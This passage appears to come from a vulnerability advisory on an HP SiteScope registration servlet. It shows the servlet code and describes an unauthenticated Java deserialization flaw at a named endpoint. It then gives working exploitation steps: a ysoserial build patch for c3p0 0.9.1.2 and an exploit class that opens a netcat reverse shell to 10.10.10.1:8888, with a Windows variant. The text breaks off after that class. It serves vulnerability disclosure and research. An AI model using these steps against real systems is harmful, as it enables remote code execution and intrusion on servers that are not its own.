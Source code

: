 ```java
	  response.sendError(400, "Could not get sample_t from request.");
	  return;
	} 
	String apiName = request.getParameter("apiName");
	if (apiName == null || apiName.equals("")) {
	  s_logger.error("Could not get api_name from request.");
	  response.sendError(400, "Could not get api_name from request.");
	  return;
	} 
	APIHandler h = APIHandlersDictionary.getHandler(apiName);
	if (h == null) {
	  s_logger.error("doPost: dont have handler for api_name ='" + apiName + "'");
	  response.sendError(400, "doPost: dont have handler for supplied api_name");
	  return;
	} 
	if (s_logger.isDebugEnabled())
	  s_logger.debug("doPost: Found handler for api " + apiName + ", invoking it..."); 
	invokeHandler(h, requestMap, response);
  }
```
> Snippet D: *com.hp.opr.legacy.sitescope.servlet.RegistrationServlet.doPost()*

As it can be seen in the first few lines, this servlet contains a classic, run of the mill Java Deserialization vulnerability. The request body of the HTTP POST request is turned into a *ObjectInputStream* and then *readObject()* is called on it.

This is trivial to trigger; all that is needed is to send a POST request to  */legacy/topaz/sitescope/conf/registration* with a body with the exploit.

In order to exploit it, it is necessary to compile *ysoserial* with *c3p0 0.9.1.2*. The patch in **Snippet E** should be applied to *ysoserial* before compiling:

```diff
diff --git a/pom.xml b/pom.xml
index 73d39c4..9d27473 100644
--- a/pom.xml
+++ b/pom.xml
@@ -239,7 +239,7 @@
                <dependency>
                        <groupId>com.mchange</groupId>
                        <artifactId>c3p0</artifactId>
-                       <version>0.9.5.2</version>
+                       <version>0.9.1.2</version>
                </dependency>
                <dependency>
                        <groupId>javax.servlet</groupId>
```
> Snippet E: patch to *ysoserial* for *c3p0 0.9.1.2* compilation


In order to exploit this in Windows using the *c3p0 ysoserial* payload, we need to generate an "exploit class":

```sh
cat  << EOF > ExploitClass.java
public class ExploitClass {
	public ExploitClass() throws Exception {
		Runtime rt = Runtime.getRuntime();
		// for Linux
		String[] commands = {"/bin/sh", "-c", "nc 10.10.10.1 8888 -e /bin/sh"};
		// for Windows
		//String[] commands = {"cmd", "/c", "mspaint.exe"};
		Process pc = rt.exec(commands);
		pc.waitFor();
	}
}
EOF
```